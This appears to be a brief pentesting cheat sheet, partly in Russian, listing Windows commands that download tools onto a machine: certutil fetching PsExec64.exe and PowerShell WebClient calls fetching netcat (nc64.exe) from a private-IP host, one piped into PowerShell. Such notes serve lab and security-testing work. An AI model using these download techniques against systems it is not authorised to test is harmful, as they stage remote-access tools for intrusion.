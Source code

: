 # Windows

## cmd

```
certutil -urlcache -f -split https://live.sysinternals.com/PsExec64.exe
```

## powershell

```powershell
(New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe')
```
> или через pipe
```powershell
echo (New-Object System.Net.WebClient).DownloadFile('http://10.10.15.139:8080/nc64.exe', 'nc64.exe') | powershell -noprofile
```
